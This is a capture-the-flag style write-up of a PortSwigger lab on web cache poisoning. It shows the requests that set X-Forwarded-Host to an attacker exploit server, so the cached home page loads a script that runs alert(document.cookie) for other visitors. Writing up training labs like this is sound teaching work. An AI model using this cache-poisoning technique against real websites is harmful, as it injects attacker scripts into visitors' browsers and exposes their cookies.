 # [Lab: Web cache poisoning with an unkeyed header](https://portswigger.net/web-security/web-cache-poisoning/exploiting-design-flaws/lab-web-cache-poisoning-with-an-unkeyed-header)

## Lab

This lab is vulnerable to web cache poisoning because it handles input from an unkeyed header in an unsafe way. An unsuspecting user regularly visits the site's home page. To solve this lab, poison the cache with a response that executes `alert(document.cookie)` in the visitor's browser.

## Analysis

Param Miner extension results, `x-forwarded-host` is an unkeyed header:

![param-miner.png](./../img/lab-1-param-miner.png)

Observe that the X-Forwarded-Host header has been used to dynamically generate an absolute URL for importing a JavaScript file stored at `/resources/js/tracking.js`.

Replay the request and observe that the response contains the header X-Cache: hit. This tells us that the response came from the cache.

## Solutions

Craft response at exploit-server:

- file: `/resources/js/tracking.js`
- body: `alert(document.cookie)`

cache poisoning:

```http
GET / HTTP/1.1
Host: id.web-security-academy.net
...
X-Forwarded-Host: exploit-id.exploit-server.net
```

- response:

  ```http
  HTTP/1.1 200 OK
  Cache-Control: max-age=30
  Age: 0
  X-Cache: miss

  <script type="text/javascript" src="//exploit-id.exploit-server.net/resources/js/tracking.js"></script>
  ```

access `/` without `X-Forwarded-Host`:

  ```http
  HTTP/1.1 200 OK
  Cache-Control: max-age=30
  Age: 10
  X-Cache: hit

  <script type="text/javascript" src="//exploit-id.exploit-server.net/resources/js/tracking.js"></script>
  ```

=> solved
